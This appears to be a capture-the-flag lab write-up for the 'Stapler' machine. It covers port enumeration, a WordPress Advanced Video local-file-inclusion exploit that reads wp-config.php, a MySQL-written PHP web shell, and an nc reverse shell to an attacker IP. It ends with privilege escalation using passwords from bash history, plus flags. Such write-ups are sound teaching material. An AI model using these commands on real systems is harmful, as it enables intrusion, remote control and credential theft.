

# Stapler

**IP Address:** 192.168.238.148

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:--------|:---------|
| 21 | ftp | vsftpd 2.0.8 or later |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0) |
| 53 | tcpwrapped | |
| 80 | http | PHP cli server 5.5 or later |
| 139 | netbios-ssn | Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP) |
| 666 | doom? | |
| 3306 | mysql | MySQL 5.7.12-0ubuntu1 |
| 12380 | http | Apache httpd 2.4.18 ((Ubuntu)) |

## Exploitation
### Exploit Details (SearchSploit)
* **Name** - WordPress Plugin Advanced Video 1.0 - Local File Inclusion
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - 2016-04-01
* **References**
  * https://www.exploit-db.com/exploits/39646

We can enumerate a list of plugins on this webpage https://192.168.238.148:12380/blogblog/wp-content/plugins/ from here we can see that the Advanced Video plugin for wordpress is in use. 

1. Check the current contents of the upload directory. 

Commands
```
curl -k -s https://$ip:12380/blogblog/wp-content/uploads/ | html2text
```


2. Run the exploit

Commands
```
curl -k "https:/$ip:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=1&term=1&thumb=../wp-config.php"
```


2. Recheck the current contents of the upload directory. We can see an image has been created. 

Commands
```
curl -k -s https://$ip:12380/blogblog/wp-content/uploads/ | html2text
```


4. Download the file and view the contents. 

Commands
```
curl -k "https://192.168.238.148:12380/blogblog/wp-content/uploads/1034930283.jpeg" -o wp-config.php
cat wp-config.php | grep 'DB'
```


5. Now that we have root credentials for the database we can upload a file. First we need to find the root path of the uploads directory by once again using the exploit. First we run the exploit, then check the uploads directory to get the file name. Then we download the file & view the contents. 

Commands
```
curl -k "https://$ip:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=987654321&short=1&term=1&thumb=/etc/apache2/sites-available/default-ssl.conf"
curl -k -s https://$ip:12380/blogblog/wp-content/uploads/ | html2text
curl -k "https://192.168.238.148:12380/blogblog/wp-content/uploads/1543609590.jpeg" -o default-ssl.conf
grep DocumentRoot default-ssl.conf
```


6. We can now upload a file using the database. 

Commands
```
mysql -h $ip -u root -p
plbkac
use wordpress;
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/var/www/https/blogblog/wp-content/uploads/shell.php";
```


7. We can now test command execution. Then initiate a reverse shell. 

Commands
```
curl -k "https://$ip:12380/blogblog/wp-content/uploads/shell.php?cmd=id"
urlencode 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.238 53 >/tmp/f'
curl -k "https://$ip:12380/blogblog/wp-content/uploads/shell.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+192.168.49.238+53+%3E%2Ftmp%2Ff"
```


8. We can now catch the reverse shell and read the local.txt file. 
Commands
```
whoami
cat /home/local.txt
```


## Privilege Escalation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

We can find some credentials in the user JKanode's bash history file. We can use these to migrate to the peter account which has sudo access then elevate straight to root. 


Commands
```bash
cat /home/JKanode/.bash_history
su peter
JZQuyIN5
whoami
sudo su
JZQuyIN5
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
7f39d001f6c13fa19e4112fd8443c473
proof.txt
ac2169e6e16d2419fb08a1be06c13182
```